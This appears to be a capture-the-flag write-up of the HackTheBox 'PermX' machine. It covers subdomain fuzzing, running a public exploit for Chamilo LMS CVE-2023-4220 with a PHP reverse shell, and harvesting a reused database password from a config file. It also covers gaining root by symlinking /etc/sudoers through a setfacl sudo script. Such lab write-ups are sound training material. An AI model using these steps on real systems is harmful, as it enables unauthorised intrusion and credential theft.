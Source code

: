 ```yaml
---
title: "HackTheBox: PermX"
date: "2024-11-02"
author: frosty
categories:
  - "writeups"
tags:
  - "hackthebox"
---
```


![Image](assets/img/writeups/hackthebox/permx/0-htb-permx.png)

## Host Enumeration

As usual, we begin with an nmap scan to identify listening services.

- 22: ssh
- 80: http

Using the ports we can look deeper and verify the software versions:

- 22: OpenSSH 8.9p1
- 80: Apache httpd 2.4.52

![Image](assets/img/writeups/hackthebox/permx/1-nmap.png)

![Image](assets/img/writeups/hackthebox/permx/2-nmap-sv.png)

Lets take a look at that website!

### Enumeration - HTTP

(Note: quickly before we begin, let's add the host information to the `/etc/hosts` file)

![Image](assets/img/writeups/hackthebox/permx/7-hosts.png)

Now back to hacking:

![Image](assets/img/writeups/hackthebox/permx/3-http.png)

We see that it is some sort of eLearning website (as seen by the big logo!). I tried to poke around the links, but wasn't able to find any pages which really caught my eye. I decided to use some tools here which could help me out!

I used GoBuster first - this is one of my go-to web-enumeration tools.

(Note: the below command works because I put the permx IP address in the `/etc/hosts` file)

```sh
$ gobuster dir \
-w /usr/share/wordlists/dirbuster/directory-list-2-3.medium.txt \
- u http://permx.htb
```

Interestingly gobuster didn't really have so much information for us. At first glance, it appears as if these are just directories used for the data that is on the website. For example:

- `/img`
- `/css`
- `/lib`
- `/js`
- `/server-status` (notably this is HTTP 403 Forbidden, which is pretty standard)

![Image](assets/img/writeups/hackthebox/permx/4-gobuster.png)

It seems like GoBuster isn't able to help us out here in the directories. So the next step is to fuzz for subdomains! I haven't done this in a while, so I had to read up a bit on fuzzing for subdomains. I was quickly reminded about the tool `ffuf`.

```sh
ffuf -u http://permx.htb -H "Host:FUZZ.permx.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
```

![Image](assets/img/writeups/hackthebox/permx/5-ffuf1.png)

We quickly see that practically all responses are 18 words. We're looking for the needle in the haystack here. Good thing is that we can filter by the amount of words in the response! (Use the `-fw` flag)

```sh
ffuf -u http://permx.htb -H "Host:FUZZ.permx.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fw 18
```

![Image](assets/img/writeups/hackthebox/permx/6-ffuf-2.png)

Straight away we have a more useful response here. We have two subdomains:

1. `www`= `http://www.permx.htb`
2. `lms`= `http://lms.permx.htb`

The `lms` subdomain looks intersting. Let's check it out!

### `lms.permx.htb`

We have a couple of different paths that we could take here. For example we could try to brute-force the credentials, but it could take a while because we aren't aware of the username (beyond `administrator` which we see on the bottom right of the screenshot.).

![Image](assets/img/writeups/hackthebox/permx/8-lms.permx.htb.png)

In the end I decided to simply Google some vulnerabilities of the Chamilo LMS. The first page on Google shows a lot of links towards an unauthorized RCE vulnerability. The main one which we are looking at here is [`CVE-2023-4220`](https://nvd.nist.gov/vuln/detail/CVE-2023-4220). There was a pretty handy GitHub repo with a prepared exploit ([GitHub Repo](https://github.com/Ziad-Sakr/Chamilo-CVE-2023-4220-Exploit)). I quickly prepared the [pentestmonkey phpreverseshell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell), and fired up the exploit:

```sh
./CVE-2023-4220.sh -f php-reverse-shell.php -h http://lms.permx.htb -p 4444
```

![Image](assets/img/writeups/hackthebox/permx/9-init-shell.png)

## Post-Exploitation: Getting to the local user

Right now we are in a pretty basic shell as `www-data`. Basically my first hope here is to find some (re-used) credentials in the system. So I decided to find and check the contents of some configuration files, using this command:

```sh
find . -type f -name "*configuration*" 2>/dev/null
```

And we are presented with a load of configuration files within the Chamilo app. This is the one where the credentials were stored in:

```sh
./var/www/chamilo/app/config/configuration.php
```

![Image](assets/img/writeups/hackthebox/permx/10-search-configuration.png)

```php
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3386';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
$_configuration['db_manager_enabled'] = false;
```

![Image](assets/img/writeups/hackthebox/permx/11-read-configuration.png)

I thought I would try my luck, and check if the password used here is re-used for the main user account. We quickly have to check the `/etc/passwd` file to find out the username.

![Image](assets/img/writeups/hackthebox/permx/12-read-etc-passwd.png)

And let's try to login wih SSH :)... Success! Time to escalate to root.

## Privilege Escalation

My first step is to use the good old [LinPEAS script](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS). Straight away this gives us a pretty big hint; mainly that the `mtz` user is allowed to execute the `/opt/acl.sh` script with root privileges, without the root password.

![Image](assets/img/writeups/hackthebox/permx/13-linpeas.png)

![Image](assets/img/writeups/hackthebox/permx/14-sudoL.png)

This is the code of that script:

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

$ Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

Basically, this script uses the `setfacl` binary to set permissions to a target file, all based on the command line arguments. The `setfacl` is executed in root context (`/usr/bin/sudo`) and can be executed without root password (as we saw in the `sudo -l` command)

The `setfacl` is a LOLBAS or [GTFOBin](https://gtfobins.github.io/gtfobins/setfacl/). Let's try to exploit it!

This took quite a bit of reading up for me, but this is what I came up with in the end. These are the steps:

1. Create a symlink file of the `/etc/sudoers` file, and name it `lolbas` within the mtz home directory.
2. Execute the script, adding rwx permissions to our symlink file (the goal is to be able to write to the `/etc/sudoers` file).
3. Edit the `lolbas` file (symlink of `/etc/sudoers`), and allow mtz user to execute sudo without password (seen in the screenshot below).
4. Escalate to root :)

![Image](assets/img/writeups/hackthebox/permx/15-edit-sudoers.png)

And that's it!

![Image](assets/img/writeups/hackthebox/permx/16-privesc_complete.png)

Thanks for reading :)
